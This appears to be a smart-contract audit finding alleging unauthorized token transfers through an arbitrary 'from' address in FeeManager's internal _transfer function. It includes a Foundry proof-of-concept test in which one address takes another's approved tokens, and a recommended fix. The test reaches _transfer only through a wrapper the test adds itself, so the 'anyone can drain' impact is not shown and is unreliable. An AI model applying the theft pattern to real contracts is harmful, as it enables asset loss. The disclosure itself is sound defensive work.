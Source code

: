 Clever Lemon Starling

high

# [H-1] Arbitrary `from address` in `_transfer` function in `FeeManager.sol` allows unauthorized token transfers (Improper Access Control + Asset Loss)

## Summary
The `FeeManager::_transfer` function allows specifying an arbitrary from address when transferring tokens. This can lead to unauthorized token transfers, as anyone can transfer tokens from any address that has previously approved the FeeManager contract to spend their tokens.

## Vulnerability Detail
The vulnerability is a case of arbitrary `from` address in the `_transfer` function in `FeeManager.sol`. This vulnerability allows anyone who uses the `_transfer` function to get drained by a malicious attacker.

The function can be found here:
https://github.com/sherlock-audit/2024-04-titles/blob/main/wallflower-contract-v2/src/fees/FeeManager.sol?plain=1#L461

## Impact
Users who have approved the `FeeManager` contract to spend their tokens are at risk of having their tokens transferred without their consent. An attacker can exploit this vulnerability to steal tokens from these users, leading to asset loss. 

Anyone who uses the `_transfer` function from `FeeManager` will be able to have all their tokens drained by a malicious attacker.

## Code Snippet

Add the test below to `FeeManager.t.sol`:

Create a TestToken.sol and import it into `FeeManager.t.sol`:

TestToken.sol:
```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract TestToken is ERC20 {
    constructor(string memory name, string memory symbol) ERC20(name, symbol) {
        _mint(msg.sender, 1000000 * 10 ** decimals());
    }
}
```

```javascript 
// import TestToken.sol into FeeManager.t.sol
import "./TestToken.sol";
```

Add this code to `FeeManager.t.sol`:

```javascript
contract FeeManagerTest is Test {
    address alice;
    address bob;
    ExposedFeeManager public exposedFeeManager;
    
    function setUp() public {
        feeManager = new FeeManager(address(1), address(this), address(new MockSplitFactory()));
        exposedFeeManager =
            new ExposedFeeManager(address(1), address(this), address(new MockSplitFactory()));
    }
    
function test_BobCanStealAliceTokens() public {
        TestToken token = new TestToken("Test Token", "TEST");
        alice = makeAddr("alice");
        bob = makeAddr("bob");

        // Transfer tokens to Alice
        token.transfer(alice, 1000 * 10 ** token.decimals());

        // Alice approves the ExposedFeeManager contract to spend her tokens
        vm.prank(alice);
        token.approve(address(exposedFeeManager), type(uint256).max);

        // Bob steals Alice's tokens using the vulnerability in _transfer
        vm.prank(bob);
        uint256 stolenAmount = token.balanceOf(alice);
        exposedFeeManager.exposedTransfer(address(token), stolenAmount, alice, bob);

        // Assert that Alice's balance is now zero
        assertEq(token.balanceOf(alice), 0);

        // Assert that Bob now has the stolen tokens
        assertEq(token.balanceOf(bob), stolenAmount);
    }
}

contract ExposedFeeManager is FeeManager {
    constructor(address admin_, address protocolFeeReceiver_, address splitFactory_)
        FeeManager(admin_, protocolFeeReceiver_, splitFactory_)
    {}

    function exposedTransfer(address asset_, uint256 amount_, address from_, address to_)
        external
    {
        _transfer(asset_, amount_, from_, to_);
    }
}
```

In this test:

We create a test token and two addresses, alice and bob.
We transfer some tokens to alice.
alice approves the `ExposedFeeManager` contract to spend her tokens.
bob exploits the vulnerability by calling `exposedTransfer` on the `ExposedFeeManager` contract, specifying alice as the from address and himself as the recipient.
We assert that alice's token balance is now zero and bob has the stolen tokens.

Run this test with ` forge test --mt test_BobCanStealAliceTokens`

## Tool used
Foundry
Manual Review

## Recommendation

To fix this vulnerability, the `_transfer` function should be modified to ensure that the from address is always the caller of the function (msg.sender). Remove the `from_` parameter and replace it with `msg.sender` in the function body.

```javascript 
function _transfer(address asset_, uint256 amount_, address to_) internal {
    if (asset_ == ETH_ADDRESS) {
        to_.safeTransferETH(amount_);
    } else {
        asset_.safeTransferFrom(msg.sender, to_, amount_);
    }
}
```
By making this change, only the actual caller of the function can transfer their own tokens, preventing unauthorized token transfers.